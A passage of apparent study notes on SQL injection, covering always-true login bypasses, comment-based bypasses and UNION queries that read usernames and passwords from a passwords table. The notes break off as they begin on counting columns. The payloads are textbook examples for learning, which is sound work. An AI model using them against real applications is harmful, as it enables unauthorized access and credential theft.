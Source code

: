 This would be the final query that the website will treat, always true. 

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

Here it is working because admin is a valid username but sometimes you don’t know. 

A solution is to use another OR.

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something' OR '1'='1';
```

### **Using Comments:**

In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with `(-- )`, with a space at the end. This is sometimes URL encoded as `(--+)`, as spaces in URLs are encoded as `(+)`. 

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

This code return true since the user admin exist. 

### **Union Clause**

Used in search field 

The Union clause is used to combine results from multiple `SELECT` statements.

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

If the second part after the Union does not have the same number of column we have to use junk data. 

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

Here the table products has 2 columns, then we create a junk value of 2 for the Union. 
Also the datatype has to be the same. 

Code snipped from exercise.

```sql
SELECT COUNT(*)
FROM (SELECT first_name FROM employees UNION ALL SELECT dept_name FROM departments) AS combined;
```

### **Union Injection:**

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server.

- Using `ORDER BY`
- Using `UNION`
